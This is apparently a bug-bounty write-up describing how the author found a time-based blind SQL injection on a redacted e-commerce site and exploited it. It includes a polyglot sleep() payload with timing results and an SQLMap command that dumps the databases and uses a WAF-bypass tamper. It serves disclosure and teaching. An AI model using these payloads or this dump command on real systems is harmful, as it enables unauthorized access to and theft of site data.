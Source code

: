 ```yaml
---
title: Exploiting Time-Based Blind SQL Injection With SQLMap
date: '2021-06-07'
tags: ['Injection', 'Bug Bounty']
draft: false
summary: Demonstrating time-based blind SQL injection exploitation with SQLMap
images: ['/static/images/time-based-SQL-injection.png']
authors: ['default']
---
```


![time-based-SQL-injection](/static/images/time-based-SQL-injection.png)

In this post, I will share details about a time-based blind SQL injection vulnerability I found on a private bug bounty program through [HackerOne](https://www.hackerone.com/). This was also my first bug bounty on the platform. From this post by [Acunetix](https://www.acunetix.com/websitesecurity/sql-injection2/), SQL Injection vulnerabilities can be classified into three major categories:- _In-band SQL Injection_, _Inferential SQL Injection_ and _Out-of-band SQL Injection_.

## Types of SQL Injections

- `In-band SQL injections` allow the attacker to use the same communication channel to both launch the attack and gather results. The most common attacks in this category include Error-based and Union-based SQL injections.
- In `Inferential SQL injections` also referred to as Blind SQL injection attacks, the attacker is not be able to see the result of an attack and only relies on observing the web application’s response and the resulting behavior of the database server. Blind boolean-based and Blind time-based attacks are examples inferential SQL injection attacks. This post focuses on time-based SQL injection attacks that rely on sending an SQL query to the database which forces the database to wait for a specified amount of time (in seconds) before responding. The response time will indicate to the attacker whether the result of the query is TRUE or FALSE.
- `Out-of-band SQL injections` are used as an alternative to inferential time-based techniques when the server responses are not very stable. The attacker in this case relies on the database server’s ability to make DNS or HTTP requests to deliver data them in case of a successful attack.

## Discovery

Whenever I am working on a new web target. I always start my recon by running [waybackurls](https://github.com/tomnomnom/waybackurls) and LinkFinder to gather as many endpoints as possible.

```bash
$ python3 linkfinder.py -i https://shop.redacted.com -d

$ cat domains.txt | waybackurls > urls.txt
```

Once the execution was done, it took me over one hour to go through all the urls one by one focusing on those that have parameters within the url. One particular url caught my attention as it was the most common in the list with a varying number of parameters each time.

```txt
https://shop.reducted.com/product
https://shop.reducted.com/product/beauty-fashion/perfumes/men
https://shop.reducted.com/product?brand=167&product_list_order=price
https://shop.reducted.com/product?brand=130&color=14
```

Whenever I see dynamic parameters in a url; for a start, I always try browsing through the urls, tampering the parameters and observing the results in Burp. In this case, I forwared the urls to the Burp intruder tab and tried using the wfuzz SQL.txt payloads. The site was however returning a similar custom error message for every payload and was therefore difficult enumerating through errors from the tampered parameters. I decided to test for blind SQL injections through Boolean Condition Injection, Using Time Delays and Using Out-Of-Band Channels following this [PortSwigger guide](https://portswigger.net/support/using-burp-to-detect-blind-sql-injection-bugs).

In a previously disclosed [HackerOne report](https://hackerone.com/reports/374027), I found a set of time-based blind SQL injection payloads. I tested these on the url parameters noting the deviations in time delays.

![sql-injection-1](/static/images/sql-injection-1.png)

I noted the following results for each payload which confirmed the presence of a time-based blind SQL injection vulnerability on the first part of the url path i.e. https://shop.reducted.com/**product**

```txt
if(now()=sysdate(),sleep(6),0)/'XOR(if(now()=sysdate(),sleep(6),0))OR'"XOR(if(now()=sysdate(),sleep(6),0))OR"/ => 13.438 s
if(now()=sysdate(),sleep(3),0)/'XOR(if(now()=sysdate(),sleep(3),0))OR'"XOR(if(now()=sysdate(),sleep(3),0))OR"/ => 6.703 s
if(now()=sysdate(),sleep(0),0)/'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"/ => 0.656 s
if(now()=sysdate(),sleep(9),0)/'XOR(if(now()=sysdate(),sleep(9),0))OR'"XOR(if(now()=sysdate(),sleep(9),0))OR"/ => 15.75 s
if(now()=sysdate(),sleep(0),0)/'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"/ => 0.625 s
if(now()=sysdate(),sleep(0),0)/'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"/ => 0.563 s
if(now()=sysdate(),sleep(0),0)/'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"/ => 0.703 s
if(now()=sysdate(),sleep(6),0)/'XOR(if(now()=sysdate(),sleep(6),0))OR'"XOR(if(now()=sysdate(),sleep(6),0))OR"/ => 12.797 s
if(now()=sysdate(),sleep(0),0)/'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"/ => 0.796 s
```

## Exploitation

I used [SQLMap](https://sqlmap.org/) to exploit the blind SQL injection vulnerability, starting by enumerating the installed Database Management System (DBMS), list available databases and tables as well as dump data from the tables.

```bash
$ sqlmap -u "https://shop.reducted.com/product*" --dbs --level=5 --risk=3 --dump --batch --tamper=space2comment --threads 10
```

- `-u` : url to scan
- `\*`: injection point/parameter (if -p switch is not provided)
- `–-dbs` : option is used to enumerate the database
- `–-risk` : type of payloads used by the tool. Default value is 1 and can be configured up to level 3
- `–-level` : number of checks/payload to be performed. The value ranges from 1 to 5
- `–-dump` : dump data from tables
- `–-batch` : instruct to proceed without asking the user
- `–-tamper` : try bypass WAF. More tamper scripts here
- `–-threads` : define the number of concurrent requests to be sent

I determined that MySQL was running on the backend server and was able to dump data from the available two databases.

![sql-injection-2](/static/images/sql-injection-2.png)

I quickly reported this to the program and within one day the report was triaged and after two days I was rewarded my very first bounty on HackerOne!

